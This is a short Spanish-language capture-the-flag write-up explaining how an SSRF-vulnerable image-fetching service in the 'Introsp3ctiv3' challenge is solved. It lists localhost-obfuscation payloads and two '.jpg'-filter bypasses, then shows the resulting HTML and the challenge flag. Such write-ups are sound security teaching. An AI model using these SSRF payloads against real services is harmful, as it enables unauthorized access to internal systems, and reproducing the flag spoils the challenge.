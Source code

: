 # Writeup: Introsp3ctiv3

Es una servicio web vulnerable a SSRF.
La web nos pide una url para obtener una imagen .jpg, y el reto nos pide obtener /flag
Para obtenerlo tendremos que buscar cómo saltarnos el filtro de .jpg y también localhost o 127.0.0.1

En internet podemos encontrar gran variedad de payloads para lograr SSRF. Unos ejemplos serían:
```
http://127.1/          <--- Algunas librerías autocompletan los 0 intermedios, en este caso 127.0.0.1
http://127.2/          <--- Igual que el anterior pero 127.0.0.2
http://2130706433/          <--- Es 127.0.0.1 en decimal
```

Ahora podemos empezar a armar nuestro payload. Tenemos que saltarnos el filtro de que incluya .jpg
Para esto hay varias formas, por ejemplo:
`http://127.1:5002/.jpg/../flag`
`http://127.1:5002/flag?a=.jpg`

Con esto, ya tendremos la flag al inspeccionar el código HTML
```
<body>
    <div id="container">
		<h1>Esta es su imagen</h1>
		<img src="/static/dGfCvCyKdZmBaQvEwReL" alt="Su imagen">
	</div>
</body>
```
Si entramos al archivo de "su imagen", que realmente es /flag, podremos ver la flag del reto.
`ETSIIT_CTF{W00000000000000W!_Y0U_G0T_4N_SSRF}`
